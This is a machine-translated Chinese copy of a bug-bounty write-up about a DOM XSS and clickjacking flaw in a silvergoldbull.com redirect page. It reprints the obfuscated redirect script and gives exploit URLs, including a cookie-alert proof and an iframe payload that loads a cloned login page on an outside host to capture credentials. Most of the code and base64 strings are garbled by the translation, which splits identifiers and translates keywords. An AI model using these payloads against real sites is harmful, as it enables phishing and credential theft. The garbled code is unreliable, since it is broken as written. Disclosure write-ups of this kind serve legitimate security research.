





# 反映了 https://silvergoldbull.de/bt.html 的 XSS 和点击劫持

> 原文：<https://infosecwriteups.com/reflected-dom-xss-and-clickjacking-on-https-silvergoldbull-de-bt-html-daa36bdf7bf0?source=collection_archive---------0----------------------->

在 silvergoldbull 网站上做蜘蛛搜索时，我注意到一个奇怪的请求，请求人向[https://silvergoldbull.de/bt.html](https://silvergoldbull.de/bt.html)提出了如下请求:

> 【https://silvergoldbull.com/bt.html? g = z 8 iclzhbpnxlzt 2 ypbxlw 9 gdtmxdvmxzv 02 bj 5 cbsvnykx 2 bnjxz 2 xwaz 9 yl 6 MHC 0 RHA 1

页面重定向到:

> 【https://silvergoldbull.com/es/us-top-picks-silver/3 

让我们检查一下源代码中有什么:

> var _0x2ad7 = ['split '，' join '，' fromCharCode '，' length '，' abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz 0123456789+/'，' charAt '，' location '，' search '，' substr ']；
> 
> (函数(_0x1c1079，_0x4030e6) {
> 
> var _ 0x 37524 a = function(_ 0x 43 a4 b 9){
> 
> while ( — _0x43a4b9) {
> 
> _ 0x1c 1079[' push '](_ 0x1c 1079[' shift ']())；
> 
> }
> 
> };
> 
> _ 0x 37524 a((+_ 0x 4030 e 6)；
> 
> }(_0x2ad7，0x17c))；
> 
> var _0x11bc = function(_0x4a174f，_0x2b3ed7) {
> 
> _ 0x4a 174 f = _ 0x4a 174 f—0x 0；
> 
> var _ 0x 51 ADC 6 = _ 0x2ad 7[_ 0x4a 174 f]；
> 
> return _ 0x51adc6
> 
> };
> 
> b =函数(_0x1a02a7) {
> 
> var _0x4af312 = {}，
> 
> _0x2b3791，_0x1b21f9 = 0x0，
> 
> _0x45e157，_0x5eca9b，_0x241abe = 0x0，
> 
> _0x385668，_ 0x2ceca8 = ' '，
> 
> _ 0x 3299 C7 = String[_ 0x 11 BC(' 0x 0 ')]，
> 
> _ 0x 2844 F2 = _ 0x 1 a 02 a 7[_ 0x 11 BC(' 0x 1 ')]；
> 
> var _ 0x 5717 D2 = _ 0x 11 BC(' 0x 2 ')；
> 
> for(_ 0x2b 3791 = 0x 0；_0x2b3791 < 0x40; _0x2b3791++) {
> 
> _0x4af312[_0x5717d2[_0x11bc(‘0x3’)](_0x2b3791)] = _0x2b3791;
> 
> }
> 
> for (_0x5eca9b = 0x0; _0x5eca9b < _0x2844f2; _0x5eca9b++) {
> 
> _0x45e157 = _0x4af312[_0x1a02a7[_0x11bc(‘0x3’)](_0x5eca9b)];
> 
> _0x1b21f9 = (_0x1b21f9 << 0x6) + _0x45e157;
> 
> _0x241abe += 0x6;
> 
> while (_0x241abe > = 0x8) {
> 
> ((_ 0x 385668 = _ 0x 1b 21 f 9 > >>(_ 0x 241 Abe-= 0x 8)& 0x ff)| | _ 0x 5 ECA 9b < _ 0x 2844 f 2–0x 2)&(_ 0x 2 ECA 8+= _ 0x 3299 c 7(_ 0x 385668))；
> 
> }
> 
> }
> 
> return _ 0x2ceca8
> 
> };
> 
> var p = new URLSearchParams(window[_ 0x 11 BC(' 0x 4 ')][_ 0x 11 BC(' 0x 5 '))；
> 
> var h = p[' get '](' g ')；
> 
> var e = h[_ 0x 11 BC(' 0x 6 ')](h[_ 0x 11 BC(' 0x 1 ')]—0x 1)；
> 
> h = h['substr'](0x0，h[_ 0x 11 BC(' 0x 1 ')]—0x 1)；
> 
> var eq = Array(parse int(e)+0x 1)[' join '](' = ')；
> 
> var u = b(h[_0x11bc('0x7')]('')['反向']()[_ 0x 11 BC(' 0x 8 ')](' ')+eq)；
> 
> window . location = u . replace(/[' "]+/g，' ')；

脚本从 URL 获取值，并在最后一步将其设置为 window.location。一步一步看起来是这样的:

> var p = new URLSearchParams(window[_ 0x 11 BC(' 0x 4 ')][_ 0x 11 BC(' 0x 5 '))；

此变量定义了新的 URLSearchParams 接口，该接口将 window.location.search 的值作为参数。在这种情况下，它是 g 参数的值。所以变量 p 的值为:

> ？g = z 8 iclzhbpnxlzt 2 ypbxlw 9 gdtmxdvmxzv 02 bj 5 cbsvnykx 2 bnjxz 2 xwaz 9 yl 6 MHC 0 RHA 1

接下来:

> var h = p[' get '](' g ')；

获取 g 参数的值，并将其值赋给 h 变量。变量 h 的值为:

> z 8 iclzhbpnxlzt 2 ypbxlw 9 gdtmxdvmxzv 02 bj 5 cbsvnykx 2 bnjxz 2 xwaz 9 yl 6 MHC 0 RHA 1

下一个变量 *e* 被创建:

> var e = h[_ 0x 11 BC(' 0x 6 ')](h[_ 0x 11 BC(' 0x 1 ')]—0x 1)；

它执行一个 substring javascript 方法，并获取分配给 h 变量的字符串的最后一个字符，该字符串的最后一个值是数字 1(最后一个值必须是数字，否则会有错误，因为变量 eq 中的 parseInt 获取字符串并将其解析为整数，所以该值必须是数字，不能是字母) :

> z 8 iclzhbpnxlzt 2 ypbxlw 9 gdtmxdvmxzv 02 bj 5 cbsvnykx 2 bnjxz 2 xwaz 9 yl 6 MHC 0 RHA[1]

下一个值 h 被赋予没有最后一个字符的 *h* 的值，在本例中为 1。所以 h 的值为:

> h = h['substr'](0x0，h[_ 0x 11 BC(' 0x 1 ')]—0x 1)；
> 
> z 8 iclzhbpnxlzt 2 ypbxlw 9 gdtmxdvmxzv 02 bj 5 cbsvnykx 2 bnjxz 2 xwaz 9 yl 6 MHC 0 RHA

下一个变量 *eq* 具有包含两个字段的数组的值，join 方法将“=”的值添加到数组中。

> var eq = Array(parse int(e)+0x 1)[' join '](' = ')；

所以数组中的值和变量 eq 的值是:

> =

最后一步是变量 *u* ，这里发生了三件事。h 的值被拆分到数组中，然后反转并再次连接，eq 变量的值被添加到末尾。

> var u = b(h[_0x11bc('0x7')]('')['反向']()[_ 0x 11 BC(' 0x 8 ')](' ')+eq)；

所以首先我们得到:

> h . split(" ")；
> 
> (68)[" Z " " 8 " " I " " C " " L " " Z " " H " " B " " p " " N " " X " " L " " Z " " t " " 2 " " Y " " p " " B " " X " " L " " W " " 9 " " G " " d " " t " " M " " X " " d " " V " " M " " X " " Z " " V " " 0 " " 2 " " B " " J " " 5 " " C " " B " " s " " V " " N " " Y " " k " " X " " 2 " " B " " N " " J " " X " " Z " " 2 " " X " " W " " a " " Z " " 9 " " Y " " L " "]

然后反转这些值:

> h.split(" ")。反向()；
> 
> (68) ["a "、" H "、" R "、" 0 "、" C "、" H "、" M "、" 6 "、" L "、" Y "、" 9 "、" Z "、" a "、" W "、" X "、" 2 "、" Z "、" X "、" J "、" N "、" B "、" 2 "、" X "、" k "、" Y "、" N "、" V "、" s "、" B "、" C "、" 5 "、" J "、" B "、" 2 "、" 0 "、" V "、" Z "、" X "、" M "、" V "、" d "、" X "、" M "、" t "、" d "、" G "、" 9 "、" W "、" L "、" X "、" B "、" p "、" Y "、" 2 "、" t "、" Z "、" L "、" X "、" X "、" L "、" N "、" N "、" p "、" p "

然后将这些值相加，并加上 eq 变量的值:

> h.split(" ")。反转()。加入(" "+情商)
> 
> " ahr 0 CHM 6 ly 9 za wx 2 zxjnb 2 xkynvsbc 5 JB 20 vzxmvdxmtdg 9 wlxbpy 2 tzlxnpbhzlci 8 z = "

所以我们得到了 BASE64 编码的最终值，函数 b 对窗口中的明文和正则表达式进行解码。

> b(" ahr 0 CHM 6 ly 9 za wx 2 zxjnb 2 xkynvsbc 5 JB 20 vzxmvdxmtdg 9 wlxbpy 2 tzlxnpbhzlci 8 z = ")；
> 
> " https://silvergoldbull . com/es/us-top-picks-silver/3 "

开发时间:

## 1.作为简单概念验证的简单 XSS

网址:

> [https://silvergoldbull.com/bt.html?g = xet mv 8 yopuwar 92 bj 5 cduvwb 1n 2 bkhcdyvgbhpdwlmcjnxy 2 fma 1](https://silvergoldbull.com/bt.html?g=xETMv8yOpUWar92bj5CduVWb1N2bkhCdyVGbhpDdwlmcjNXY2Fma1)

概念验证:

谷歌 Chrome 浏览器中的 Img 1.0 页面加载——绕过了 XSS 审计员

Mozilla Firefox 中的 Img 2.0 页面加载

我们用的是 vector JavaScript:alert(document . cookie)；//111 生成不带等号或加号的 BASE64，然后我们反转字符串并在末尾添加数值:

Img 3.0 Base64 编码 XSS 矢量

Img 4.0 Base64 反向 XSS 向量

但是我们无法获得我们需要的 cookie，因为 HTTPOnly 在 cookie 上，所以我们需要更高级的攻击。一些能给我们带来数据的东西。

# 2.使用显示在[https://silvergoldbull.com](https://silvergoldbull.com)上的 Iframe 内的假登录窃取用户登录

让我们首先克隆登录页面并设置假的 https 登录页面:

> 【https://maxon3.github.io/silvergold/ 号

接下来，我们必须设置注入向量，因为引号和双引号从向量中删除，我们必须使用其他东西来代替它们，我们可以使用反引号并绕过它。步骤:

1.使用编码的 base64 iframe 值(secK 参数)在 URL 请求中设置新参数

2.用我们的 javascript 注入向量请求 secK 的值(注入向量是 g 参数的值)

3.页面得到渲染和显示

4.用户输入数据并点击登录

5.攻击者有用户数据，最好的事情是 URL 仍然会显示 silvergoldbull

使用的矢量是:

> 【https://silvergoldbull.com/bt.html? secK = pglmcmftzsbbvbmxvywq 9 indpbmrvdy 5 zdg 9 wkck 7 innyyz 0 nly 9 nb 28 uz 2 wvafe 0 efh VJ 3n 0 ewxlpsjozwlnahq 6 mtawmhb 4 o 3d pzhroewmcu 7 ym 9 yzgvyojaipg = =&g = V8 ylvstkpkcylnwzzbgkdbgdldgybbhki 9 gdhhsz 0 LMC 35 cduvwb 1 N2 bkpddwlmcjnxy 2 fma 1【T5

解释道:

g 的值为:

> var h = " V8 ylvstkpkcylnwzzbgkdbgdldgybbhki 9 gdhhsz 0 LMC 35 cduvwb 1n 2 bkpddwlmcjnxy 2 fma 1 "；console.log(atob(h.substr(0，h.length-1))。拆分(" ")。反转()。join(" "))；
> 
> JavaScript:document . write(atob(p[` get `](` seck `))；////

所以我们取 param secK 的值并用 atob 函数解码，解码完成后，该值被写入 DOM 并呈现。

secK 的值是:

> atob(' pglmcmftzsbbvbmxvywq 9 indpbmrvdy 5 zdg 9 wkck 7 innyyz 0 nly 9 nb 28 uz 2 wvafe 0 efh VJ 3n 0 ewxlpsjozwlnahq 6 mtawmhb 4 o 3d pzhroewmcu 7 ym 9 yzgvyojaipg = = ')

我们使用 google redirector 来缩短 base64 向量，删除我们可以删除的空格，删除边框，设置 iframe 以获取 viewport 的完整值，并删除加载旋转动画，我们设置 window.stop()在页面完成加载后立即运行。

概念验证:

使用 github 页面的假登录 iframe 服务器在 Google Chrome 上加载 Img 5.0 页面

Img 6.0 用户提交登录表单后，我们得到了他的数据

所有攻击者需要的是共享 URL 并等待凭证，就是这么简单。

由于满足了 SAMEORIGIN 要求，点击劫持也可能被利用:

> [https://silvergoldbull.com/bt.html?secK = pglmcmftzsbbvbmxvywq 9 indpbmrvdy 5 zdg 9 wkck 7 innyyz 0 nly 9 nb 28 uz 2 wvdhpirli 2j 3n 0 ewxlpsjozwlnahq 6 mtawmhb 4 o 3d pzhroewmcu 7 ym 9 yzgvyojaipg = =&g = V8 ylvstkpkcylnwzzbgkdbgdldgybbhki 9 gdhhsz 0 LMC 35 cduvwb 1 N2 bkpddwlmcjnxy 2 fma 1](https://silvergoldbull.com/bt.html?secK=PGlmcmFtZSBvbmxvYWQ9IndpbmRvdy5zdG9wKCk7InNyYz0nLy9nb28uZ2wvdHpiRlI2J3N0eWxlPSJoZWlnaHQ6MTAwMHB4O3dpZHRoOjEwMCU7Ym9yZGVyOjAiPg==&g=v8yLvsTKpkCYLNWZzBGKdBGdldGYbBHKi9GdhhSZ0lmc35CduVWb1N2bkpDdwlmcjNXY2Fma1)

secK 的值为:

概念验证:

Iframe 内的 img 7.0[https://silvergoldbull.com](https://silvergoldbull.com)网站，准备点击劫持

修复:

他们删除了易受攻击的页面，但对于所有想在阅读这篇文章时“练习”并利用这个错误的人，我专门为你创建了一个 hack.me:

> [https://hack.me/104291/dom-xss-2.html](https://hack.me/104291/dom-xss-2.html)

感谢阅读。